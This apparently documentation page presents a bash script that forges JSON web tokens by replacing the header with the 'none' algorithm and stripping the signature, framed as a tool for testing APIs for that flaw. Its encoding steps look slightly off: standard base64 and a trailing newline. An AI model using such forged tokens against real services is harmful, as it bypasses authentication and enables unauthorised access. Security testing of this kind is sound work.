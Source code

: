 ```yaml
---
title: JWT None Algorithm
---
```


Below is a script that will take in a JSON web token, remove the signature, and change the header so that it is "signed" with the `none` algorithm. This can be used to create JWTs for testing if APIs are vulnerable to none algorithm attacks.


```bash
#!/usr/bin/env bash
set -euo pipefail

echoerr() { echo "$@" 1>&2; }

if [[ $# -ne 1 ]]; then
    echoerr "Expected a single argument: JWT"
    exit 1
fi

token="$1"
original_header="$(cut -d '.' -f 1 <<< "$token")"
original_payload="$(cut -d '.' -f 2 <<< "$token")"
original_header_decoded="$(base64 -d <<< "$original_header")"

new_header_decoded='{"alg":"none","typ":"JWT"}'
new_header="$(base64 <<< "$new_header_decoded" | sed 's/=*$//g')"

# Only send the token to stdout so that it can be captured in a variable
echoerr "Original Header:"
echoerr "   $original_header"
echoerr "   $original_header_decoded"
echoerr "New None Header:"
echoerr "   $new_header"
echoerr "   $new_header_decoded"
echoerr
echo "$new_header.$original_payload."
```

<JWT/>
